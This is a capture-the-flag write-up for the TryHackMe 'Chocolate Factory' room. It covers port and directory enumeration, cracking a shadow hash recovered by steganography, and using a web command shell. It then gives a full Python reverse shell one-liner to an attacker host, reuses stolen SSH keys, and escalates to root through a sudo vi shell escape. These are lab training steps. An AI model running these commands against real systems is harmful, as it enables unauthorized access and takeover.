








# [Chocolate Factory](https://tryhackme.com/room/chocolatefactory) TryHackMe CTF


---

```shell
export IP=10.10.185.246
```

Let's kick off with a few `nmap` scans to enumerate the box

```shell
nmap -sC -sV -v $IP -oN nmap/initial.txt
```
Reveals the following
```
Ports:
21 ftp
22 ssh
80 http
106 unique
110 unique
111 unique
113 unique
125 unique
```

During the nmap scan, I noticed that it took much to scan - because within each of the special ports, there was a hint about which file to get.



Thankfully as nmap did that for us, I was able to quickly find `http://localhost/key_rev_key` which points to a directory on the box.
Downloading the file and analysing it, it appears to be some sort of binary file we are meant to run... I decided that before I use Ghidra or equivilent I would run it through strings - and viola!



Some sort of key, throwing it into b64 and other base decodes doesn't reveal much so I postpone working on it.

Then I looked into the other ports, first ftp. It allowed anonymous login and there was a solitary `gum_room.png` file. Throwing it into a steg decode revealed that it was a large file encoded in base64. Decoding the base64 file revealed it to be a shadow file! With an exposed hash for a user `charlie`, which I immediately put into a hash-cracker

```shell
hashcat -m 1800 '$6$CZJnCPeQWp9/jpNx$khGlFdICJnr8R3JC/jTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/' ~/wordlists/passwords/rockyou.txt
```


---

Moving on to the main website, I first enumerate it with `gobuster`

```shell
gobuster dir -t 64 -u $IP -w ~/wordlists/website_dir/directory-list-2.3-medium.txt -x .php,.txt,.html,.jpg,.png -o gobuster/dir_med.txt
```

Doing this I discover some interesting directories.
```
/home.php
/validate.php
```
Going into `home.php` revealed it to be a web-side command shell.



I then use a python reverse shell to give myself better access to it
```shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<<IP>>",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

I check the php code for `validate.php` which contains the plaintext username and password for charlie



Using his credentials simply takes me back to `validate.php`.

Now that I have box access, I navigate and investigate charlie's home directory, which contains a user.txt (cannot view) but two files, teleport and teleport.pub; which are charlie's ssh public and private keys. Copying these over, I can now ssh into the box as charlie.

(Note that the hashcat cracker is still _pointlessly_ chugging away in the background)

As charlie, I am now able to grab the user flag and submit it. My new focus is on Priviledge Escalation.
I dutifully check charlie's sudo permissions even though I do not have his password.



We can sudo `/usr/bin/vi` without requiring a password - although with the caveat that we cannot run it as root - or is it?

```shell
sudo vi -c ':!/bin/bash -i' /dev/null
```

And we now have root access!

Going into `/root` though reveals that we are not quite done yet. There's a python script which will reveal our final flag!



The script is using a Fermet Cipher, which requires a cipher and its key to decode. The cipher is hardcoded into the script and we had found the key in an earlier question.

Time to run the script and get our key...?



Nope, the decoding library _is not even loaded_ onto the box and instead of trying to upload it to the box using http or scp, I throw in into an online decoder.



And this room is _**complete!**_


